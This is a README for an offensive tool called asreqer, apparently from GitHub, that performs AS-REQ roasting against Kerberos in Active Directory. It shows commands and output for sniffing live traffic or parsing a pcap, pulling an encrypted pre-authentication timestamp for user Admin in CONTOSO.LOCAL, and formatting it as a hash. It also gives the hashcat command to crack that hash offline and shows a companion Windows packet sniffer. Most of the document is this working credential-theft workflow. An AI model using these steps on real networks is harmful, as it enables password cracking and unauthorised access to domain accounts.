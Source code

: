 # asreqer
asreq roasting

```sh
python3 asreqer.py --verbose live tun0
[*] Starting live capture on interface: tun0
[+] Found AS-REQ with pA-ENC-TIMESTAMP
    User (cname): Admin
    Realm:        CONTOSO.LOCAL
    EType:        18
    CipherText:   f4:07:3a:a7:ba:17:50:84:0f:7e [...snip...] 1:4f:de:7e:a5:51:b7:3f:2b:99:f4:4e:c9

=========================
$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9
=> Admin@CONTOSO.LOCAL-f4073a.krb5pa
=========================
[!] hashcat -m 19900 ...  # AES256-CTS-HMAC-SHA1-96
```

crack with:

```sh
hashcat -m 19900 '$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9' <wordlist>
```

alternatively, collect packets with [sniffer](./sniffer/)

```sh
PS C:\Users\Admin\Desktop> .\sniffer.exe "Ethernet" 10 capture.pcap
[+] Using interface 'Ethernet' with IP 10.5.10.15
[+] Capturing for 10 seconds...
[+] Capture complete!
```

and parse with:

```sh
python3 asreqer.py file --verbose ../capture.pcap 
[*] Reading Kerberos packets from file: ../capture.pcap
[+] Found AS-REQ with pA-ENC-TIMESTAMP
    User (cname): Admin
    Realm:        CONTOSO.LOCAL
    EType:        18
    CipherText:   f4:07:3a:a7:ba:17:50:84:0f:7e [...snip...] 1:4f:de:7e:a5:51:b7:3f:2b:99:f4:4e:c9

=========================
$krb5pa$18$Admin$CONTOSO.LOCAL$f4073aa7ba175[... snip... ]b99f44ec9
=> Admin@CONTOSO.LOCAL-f4073a.krb5pa
=========================
[!] hashcat -m 19900 ...  # AES256-CTS-HMAC-SHA1-96
```

## ref

[https://www.thehacker.recipes/ad/movement/kerberos/asreqroast](https://www.thehacker.recipes/ad/movement/kerberos/asreqroast)
[https://github.com/TheFlamingCrab/ticketsniffer](https://github.com/TheFlamingCrab/ticketsniffer)
